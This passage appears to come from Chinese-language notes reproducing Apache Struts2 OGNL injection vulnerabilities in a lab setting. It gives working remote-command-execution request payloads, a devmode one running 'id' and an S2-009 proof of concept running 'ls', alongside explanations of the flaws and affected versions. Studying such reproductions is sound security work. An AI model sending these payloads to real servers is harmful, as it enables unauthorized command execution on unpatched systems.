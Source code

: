 ~~~~
devmode.action?debug=command&expression=(%23_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23context[%23parameters.rpsobj[0]].getWriter().println(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()))):xx.toString.json&rpsobj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=123456789&command=id
~~~~

![image-20220330214444897](E:\学习\picture\image-20220330214444897.png)

## **S2-009复现**

### 原理：

~~~
OGNL提供了广泛的表达式评估功能等功能。该漏洞允许恶意用户绕过ParametersInterceptor内置的所有保护（正则表达式，拒绝方法调用），从而能够将任何暴露的字符串变量中的恶意表达式注入进行进一步评估。ParametersInterceptor中的正则表达式将top ['foo']（0）作为有效的表达式匹配，OGNL将其作为（top ['foo']）（0）处理，并将“foo”操作参数的值作为OGNL表达式求值。这使得恶意用户将任意的OGNL语句放入由操作公开的任何String变量中，并将其评估为OGNL表达式，并且由于OGNL语句在HTTP参数中，攻击者可以使用黑名单字符（例如＃）禁用方法执行并执行任意方法，绕过ParametersInterceptor和OGNL库保护。
~~~

**影响版本：Struts 2.1.0 - 2.3.1.1**

### 环境搭建

![image-20220330215657186](E:\学习\picture\image-20220330215657186.png)

### poc构建

burp，修改数据包

~~~
/ajax/example5.action?age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27ls%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)(%27meh%27)]
~~~

![image-20220330220451094](E:\学习\picture\image-20220330220451094.png)

![image-20220330220528038](E:\学习\picture\image-20220330220528038.png)

## **S2-012复现**

### 原理：

~~~~
如果在配置 Action 中 Result 时使用了重定向类型，并且还使用 ${param_name} 作为重定向变量，UserAction 中定义有一个 name 变量，当触发 redirect 类型返回时，Struts2 获取使用 ${name} 获取其值，在这个过程中会对 name 参数的值执行 OGNL 表达式解析，从而可以插入任意 OGNL 表达式导致命令执行。
~~~~
